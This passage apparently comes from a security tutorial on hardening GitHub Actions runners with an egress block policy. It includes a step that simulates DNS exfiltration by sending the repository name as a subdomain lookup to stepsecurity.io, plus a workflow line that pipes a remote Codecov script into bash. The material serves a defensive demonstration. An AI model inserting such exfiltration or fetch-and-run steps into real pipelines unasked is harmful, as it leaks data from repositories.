    The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add StepSecurity Harden Runner from here onwards
         - uses: step-security/harden-runner@v1
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
   ```

8. Simulate a DNS exfiltration attack similar to the one used in the dependency confusion attack. Update the [ci.yml](../.github/workflows/ci.yml) workflow and add the following statement. In the actual attack, the outbound call was made by a malicious package as part of `preinstall` step. In this case, just add this step to the workflow to simulate sending the repo name as a sub-domain to stepsecurity.io.

   ```yaml
   - name: Simulate DNS traffic
       run: |
         domain="${GITHUB_REPOSITORY}.stepsecurity.io"
         domain=${domain//\//-}
         nslookup "${domain}"
   ```

   The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add StepSecurity Harden Runner from here onwards
         - uses: step-security/harden-runner@v1
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
   ```